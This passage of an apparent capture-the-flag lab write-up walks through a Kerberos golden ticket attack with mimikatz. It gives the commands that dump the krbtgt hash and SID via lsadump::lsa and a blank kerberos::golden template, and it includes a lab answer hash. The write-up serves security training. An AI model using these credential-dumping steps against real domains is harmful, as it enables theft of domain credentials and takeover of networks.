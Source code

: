 Answer: `c39f2beb3d2ec06a62cb887fb391dee0`

# [Task 5] Golden Ticket Attacks w/ mimikatz

﻿﻿﻿﻿Again using the same tool as the previous task; however, this time we'll be using it to create a golden ticket.

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

I have already taken the time to put mimikatz on the machine.

**Dump the krbtgt Hash**

﻿1. `cd downloads && mimikatz.exe`
2. `privilege::debug` ensure this outputs [privilege "20" ok]
﻿3. `lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

!["Yzq71aI.png"](files/Yzq71aI.png)

Take note of what is outlined in red you'll need it to create the golden ticket

**Create a Golden Ticket**

﻿1. `kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

!["9ZIN20L.png"](files/9ZIN20L.png)
